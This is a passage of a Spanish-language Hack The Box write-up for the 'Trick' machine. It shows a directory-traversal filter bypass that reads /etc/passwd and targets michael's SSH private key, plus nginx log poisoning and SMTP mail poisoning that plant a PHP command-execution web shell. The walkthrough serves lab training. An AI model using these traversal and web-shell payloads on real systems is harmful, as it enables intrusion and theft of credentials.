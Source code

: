 **¿Por que ocurre esto?**<br>
Es posible que por detras el código esté concatenando un .php al final del archivo. Por eso cuando intentabamos hacer el **Directory Traversal** no funcionaba. Podiamos haber intentado añadir un **Null Byte** pero tampoco funcionaría.

Si investigamos mas archivos de la página llegaremos a ver un **db_connect** con otras credenciales pero tampoco nos funcionaran. Por lo que es hora de pasar al siguiente subdominio

### preprod-marketing.trick.htb

En esta web volvemos ha encontrar un parametro **page=service.html** pero esta vez vemos la extensión, por lo que tiene buena pinta. Veremos que si aplicamos el siguiente filtro **....//....//....//....//etc/passwd** conseguiremos ver el archivo en concreto.

## Ganando acceso a la máquina 

A partir de aqui hay 3 maneras posibles

### Leer la id_rsa del usuario michael
Localizada en la ruta **/home/michael/.ssh/id_rsa**
### Log Poisoning de ngix
Localizados en la ruta **/var/log/ngnix/access.log**. Para esto, debemos cambiar el **User-Agent** a **<?php system($_GET['cmd']); ?>** Importante escribirlo bien ya que si no lo hacemos tendremos que reiniciar la máquina para que funcione. Luego, una vez enviada la petición con este User-Agent ya podemos añadirle el parametro **&cmd=id**
![](/assets/images/htb-writeup-trick/log_poisoning_nginx.png)
### Email Poisoning SMTP
Podemos enviarle un mail a michael con un codigo php malicioso como el usado anteriormente. Para enviar el mail haremos lo siguiente
```bash
telnet 10.10.11.166 25
mail from:kumi@trick.htb
rcpt to: michael
data
Te envio este email --> <?php system($_GET['cmd']); ?>
.
```
Luego tendremos que aplicar lo mismo que hemos hecho antes con los logs nginx pero en la ruta **/var/spool/mail/michael**
